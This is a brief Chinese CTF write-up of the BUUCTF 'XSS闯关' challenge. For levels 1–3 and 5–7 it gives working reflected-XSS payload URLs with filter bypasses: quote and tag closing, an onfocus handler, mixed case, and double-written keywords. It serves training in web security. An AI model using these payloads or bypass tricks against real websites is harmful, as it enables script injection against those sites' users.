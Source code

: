 # BUUCTF [第二章 web进阶]XSS闯关

Time:2022.5.11

## level 1

没有任何过滤。
`?name=%3Cscript%3Ealert(1)%3C/script%3E`

## level 2

前面有引号，闭合引号和 input 标签，再设置 script 标签  
`?keyword="/><script>alert(1)</script>&submit=%E6%90%9C%E7%B4%A2`  

## level 3

发现对一些特殊字符如尖括号做了 escape 编码。可以先单引号闭合，再引入一个时间来触发函数，如 onfocus，然后点击搜索框即可  
`?keyword=%27 onfocus=%27alert(1);%27&submit=%22%E6%90%9C%E7%B4%A2%22`  
一开始在 onfocus 前加了引号，咋都成功不了，然后才知道 html 标签中是没有分号的(?)，某些情况下可能有，但就我的浏览器观察，所有标签内部元素之间都没有使用分号隔离。

## level 4

写到这的时候 BUU 的环境过期了，然后重开变成了别的环境，这关是啥样也忘记了，所以算了吧。

## level 5

script 被替换为 scr_ipt，on 被替换为 o_n，没有过滤尖括号，尝试使用 JS 伪协议  
`?keyword=123"/><a href="javascript:alert('xss');">test</a>`  
点击 text 链接即可成功弹窗。

## level 6

href 被替换为 hr_ef。src -> sr_c  
然后发现没过滤大小写，href 改为 hREf 即可  
`?keyword=123"/><a hREf="javascript:alert('xss');">test</a>`  

## level 7

这次直接把 script, href, src 替换为空了，href 可以通过双写为 hrhrefef 绕过，链接中的 script 也可以双写绕过。  
`?keyword=123"/><a hrhrefef="javascscriptript:alert(1)">test</a>`  
